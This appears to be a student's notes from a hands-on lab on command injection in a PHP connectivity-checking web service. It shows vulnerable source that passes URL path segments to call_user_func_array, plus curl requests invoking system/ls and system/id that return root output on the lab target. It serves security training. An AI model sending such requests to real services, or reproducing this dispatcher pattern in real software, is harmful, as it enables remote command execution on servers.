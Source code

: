 ```yaml
---
sticker: emoji//1f480
---
```

Command injections are among the most critical vulnerabilities in web services. They allow system command execution directly on the back-end server. If a web service uses user-controlled input to execute a system command on the back-end server, an attacker may be able to inject a malicious payload to subvert the intended command and execute his own.

Let us assess together a web service that is vulnerable to command injection.

You may have come across connectivity-checking web services in router admin panels or even websites that merely execute a ping command towards a website of your choosing.

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target service and follow along.

Suppose we are assessing such a connectivity-checking service residing in `http://<TARGET IP>:3003/ping-server.php/ping`. Suppose we have also been provided with the source code of the service.

**Note**: The web service we are about to assess does not follow the web service architectural designs/approaches we covered. It is quite close to a normal web service, though, as it provides its functionality in a programmatic way, and different clients can use it for connectivity-checking purposes.


```php
<?php
function ping($host_url_ip, $packets) {
        if (!in_array($packets, array(1, 2, 3, 4))) {
                die('Only 1-4 packets!');
        }
        $cmd = "ping -c" . $packets . " " . escapeshellarg($host_url_ip);
        $delimiter = "\n" . str_repeat('-', 50) . "\n";
        echo $delimiter . implode($delimiter, array("Command:", $cmd, "Returned:", shell_exec($cmd)));
}

if ($_SERVER['REQUEST_METHOD'] === 'GET') {
        $prt = explode('/', $_SERVER['PATH_INFO']);
        call_user_func_array($prt[1], array_slice($prt, 2));
}
?>
```

A function called _ping_ is defined, which takes two arguments _host_url_ip_ and _packets_. The request should look similar to the following. `http://<TARGET IP>:3003/ping-server.php/ping/<VPN/TUN Adapter IP>/3`. To check that the web service is sending ping requests, execute the below in your attacking machine and then issue the request.

```shell-session
smoothment@htb[/htb]$ sudo tcpdump -i tun0 icmp
 tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
 listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
 11:10:22.521853 IP 10.129.202.133 > 10.10.14.222: ICMP echo request, id 1, seq 1, length 64
 11:10:22.521885 IP 10.10.14.222 > 10.129.202.133: ICMP echo reply, id 1, seq 1, length 64
 11:10:23.522744 IP 10.129.202.133 > 10.10.14.222: ICMP echo request, id 1, seq 2, length 64
 11:10:23.522781 IP 10.10.14.222 > 10.129.202.133: ICMP echo reply, id 1, seq 2, length 64
 11:10:24.523726 IP 10.129.202.133 > 10.10.14.222: ICMP echo request, id 1, seq 3, length 64
 11:10:24.523758 IP 10.10.14.222 > 10.129.202.133: ICMP echo reply, id 1, seq 3, length 64
```

- The code also checks if the _packets_'s value is more than 4, and it does that via an array. So if we issue a request such as `http://<TARGET IP>:3003/ping-server.php/ping/<VPN/TUN Adapter IP>/3333`, we're going to get an _Only 1-4 packets!_ error.
- A variable called _cmd_ is then created, which forms the ping command to be executed. Two values are "parsed", _packets_ and _host_url_. [escapeshellarg()](https://www.php.net/manual/en/function.escapeshellarg.php) is used to escape the _host_url_'s value. According to PHP's function reference, _escapeshellarg() adds single quotes around a string and quotes/escapes any existing single quotes allowing you to pass a string directly to a shell function and having it be treated as a single safe argument. This function should be used to escape individual arguments to shell functions coming from user input. The shell functions include exec(), system() shell_exec() and the backtick operator._ If the _host_url_'s value was not escaped, the below could happen.
![](Pasted image 20250219153637.png)
- The command specified by the _cmd_ parameter is executed with the help of the _shell_exec()_ PHP function.
- If the request method is GET, an existing function can be called with the help of [call_user_func_array()](https://www.php.net/manual/en/function.call-user-func-array.php). The _call_user_func_array()_ function is a special way to call an existing PHP function. It takes a function to call as its first parameter, then takes an array of parameters as its second parameter. This means that instead of `http://<TARGET IP>:3003/ping-server.php/ping/www.example.com/3` an attacker could issue a request as follows. `http://<TARGET IP>:3003/ping-server.php/system/ls`. This constitutes a command injection vulnerability!

You can test the command injection vulnerability as follows.

```shell-session
smoothment@htb[/htb]$ curl http://<TARGET IP>:3003/ping-server.php/system/ls
index.php
ping-server.php
```


# Question
---

![](Pasted image 20250219153716.png)

If we test `id`, we get the following:

```
curl http://10.129.202.133:3003/ping-server.php/system/id

uid=0(root) gid=0(root) groups=0(root)
```

